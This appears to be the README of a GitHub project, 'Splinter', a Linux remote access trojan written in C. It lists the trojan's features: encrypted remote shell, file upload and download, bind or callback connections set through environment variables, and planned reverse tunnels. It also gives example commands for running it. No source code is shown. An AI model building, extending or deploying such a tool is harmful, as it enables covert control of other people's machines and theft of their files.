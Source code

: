 # Splinter

Linux remote access trojan (RAT)


This is the starting code for a Linux RAT written in C.  I was tired of there being no real Linux RATs, most of the time it's just ncat.  It uses mbedTLS for encryption and miniz (but able to use zlib) compression for all the communications. I'm unsure if I did the crypto correctly, but I feel that it's good enough for now
I started this project to learn C and I've been working on it for a couple months.  If any problems happens or features wanted, please let me know.

rat.c
        -Port is configurable at runtime through the environment variable "P".  It will bind on all interfaces by default.
                -Uses poll to handle multiple commands

        -Capable of calling back via "I" environment variable.

rat-client.c
        -Command history and tab completion provided by readline
        -Currently has 4 native commands:
                .exit - Closes that current client's connection
                .kill - Kills off the rat process and all the client's connection
                download <remote file> <local file> - Chunks a file, compresses it and sends it over.  Will verify the file transfer via SHAA1 hash
                upload <local file> <remote file> - Performs the same operation as download but uploads instead

Example:
        rat binds and client connects to it
                remote shell> P=12345 ./rat
                shell> ./rat-client 127.0.0.1 12345

        rat calls back to client
                shell ./rat-client 12345
                remote_shell> I=127.0.0.1 P=12345 ./rat

TODO:
        Simple:
                -Move the rat.c output inside of DEBUG blocks so it's not spewing everywhere
                -Clean up rat-client.c output so it's a little nicer
                -Change the client command prompt to actually get the target's IP address

        Advanced:
                -Add in SSH-type tunnels to be able to do forward and reverse tunels
                -Add in the ability to fork and bind on a different port or callback via commands

